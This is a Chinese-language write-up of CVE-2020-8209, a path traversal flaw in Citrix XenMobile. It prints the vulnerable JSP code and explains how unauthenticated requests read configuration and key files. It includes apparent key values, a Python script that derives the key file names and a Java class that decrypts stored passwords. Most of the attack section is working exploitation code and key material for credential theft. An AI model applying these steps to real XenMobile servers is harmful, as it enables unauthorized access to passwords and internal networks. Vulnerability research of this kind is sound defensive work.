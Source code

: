 # （CVE-2020-8209）Citrix XenMobile目录遍历任意文件读取漏洞.md



Citrix Endpoint Management（也称为XenMobile）用于管理员工的移动设备和移动应用程序。通常，由于Active Directory集成，它部署在网络外围并可以访问内部网络。这使XenMobile成为安全研究的主要目标。

在此类研究中，发现了路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件。





# CVE-2020-8209 –路径遍历

利用此漏洞，可以读取Web服务器根目录之外的任意文件，包括配置文件和敏感的加密密钥。不需要授权。在文件help-sb-download.jsp中标识了易受攻击的代码：



```
<%    String sbFilePath="/opt/sas/support/";    int length = 0;
    String sbFileName=(String)request.getParameter("sbFileName");
    ServletOutputStream outStream = response.getOutputStream();    response.setHeader("Set-Cookie","fileDownload=true; path=/");    response.setContentType("application/octet-stream");    response.setHeader("Content-Disposition", "attachment; filename=\"" + sbFileName + '"');

    File file = new File(sbFilePath+sbFileName);    byte[] byteBuffer = new byte[4096];    DataInputStream in = new DataInputStream(new FileInputStream(file));
    while((in != null) && ((length =in.read(byteBuffer)) != -1))    {        outStream.write(byteBuffer,0,length);
    }
    in.close();    outStream.flush();
%>
```

该参数sbFileName与字符串连接/opt/sas/support/，之后将字符串作为参数提供给File类构造函数。结果显示在以下屏幕截图中：

![image-20201117135212860](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135212860.png)

# 解密配置密码

尽管该应用程序以tomcat用户的特权运行，但仍可以读取诸如的配置文件/opt/sas/sw/config/sftu.properties。



![image-20201117135236477](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135236477.png)

密码已加密并以以下两种格式之一存储：{aes} [base64文本]或{aes} {db} [base64文本]。加密由库/opt/sas/sw/lib/libsecure.so和DataSecurity.jar处理。为了解密，需要相应的密钥。它们位于文件中/opt/sas/rt/keys/security.properties，可以使用路径遍历漏洞进行下载。

![image-20201117135250138](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135250138.png)

```

P.TXT1=vfjgegdwecmykhbispfg
P.TXT2=mbezvftvzwjopiruwewm
P.TXT3=gzaoaxmebrgffquankdx
P3.Salt=W3UK3PtDVgYq9Jd9QKReAw==
NLK=cT4nkjXGc/iUZ2TvCVkvmsZAsNTG/6OgE08ZMWvATcL2fXFgfwAJO/nhE7jsi6Zh
NLKS=SC01Cg==
WKS=CAVRK9/5+r5esY+bvrZJ1g==
SK=jTyjyNsyFbkrCnaI9Gq/0GVUp1fkq8nd+VHLe35T0rmmm8z7osNtgfSNPFulSSJ1
SKS=CF5ebQ==
UD.GK=69ict40YlMC9E1a2Tcgu3UVb0Lkd5RyadcQ4SEwcbKlUCR8Tv4lGv6N6BkirKk7l
GKS=4GLRGw==
```

使用算法对每个参数P.TXT1，P.TXT2，P.TXT3进行哈希处理

![image-20201117135329135](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135329135.png)

并指.txt文件夹中的文件/opt/sas/rt/keys/。这些相同的步骤由库完成libsecure.so。



```
from base64 import b64encode
from hashlib import sha256
print(b64encode(sha256(b'vfjgegdwecmykhbispfg').digest()).decode('ascii').translate({47:None,61:None}))
print(b64encode(sha256(b'mbezvftvzwjopiruwewm').digest()).decode('ascii').translate({47:None,61:None}))
print(b64encode(sha256(b'gzaoaxmebrgffquankdx').digest()).decode('ascii').translate({47:None,61:None}))
```

生成的文件名WbuGF1z7N+0EsLTTCE3JoRNgAJJzVe7Gs5JWhp3qJE.txt，lQGKrlfWtad61mxyFkUWNi2vF7INdfOfiXzVX1I95g.txt和

NZc0GgHcLK4qzgdQdQ0V50EorrksnJFdu1zIIlxx1j8.txt可以用于使用路径遍历漏洞从服务器下载相应的文件。

![image-20201117135402620](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135402620.png)

![image-20201117135412719](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135412719.png)

![image-20201117135421855](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135421855.png)

/opt/sas/sw/lib/libsecure.so还需要用于加密的库。

当务之急是这些文件（security.properties，WbuGF1z7N+0EsLTTCE3JoRNgAJJzVe7Gs5JWhp3qJE.txt，lQGKrlfWtad61mxyFkUWNi2vF7INdfOfiXzVX1I95g.txt，NZc0GgHcLK4qzgdQdQ0V50EorrksnJFdu1zIIlxx1j8.txt，libsecure.so），以保存到本地，他们有XenMobile服务器上的同一个文件的路径。

还需要三个Java库，保存到一个文件夹：/opt/sas/sw/tomcat/inst1/webapps/ROOT/WEB-INF/lib/DataSecurity.jar，/opt/sas/sw/tomcat/inst1/webapps/ROOT/WEB-INF/lib/common-interfaces.jar，/opt/sas/sw/tomcat/inst1/webapps/ROOT/WEB-INF/lib/slf4j-api-1.6.4.jar。

在上述文件夹中，创建一个decrypt.class包含以下内容的文件并进行编译。

```

import com.citrix.xms.security.DataSecurity;

class decrypt {
    public static void main(String[] args) {
        if (args.length < 1) {
            System.out.println("Usage:\n    decrypt [encrypted string]");
            return;
        }
        System.out.println(DataSecurity.decryptDbPassword(args[0]));
    }
}
```

通过正确排列所有数据，我们可以从配置文件中解密密码。

![image-20201117135453864](resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135453864.png)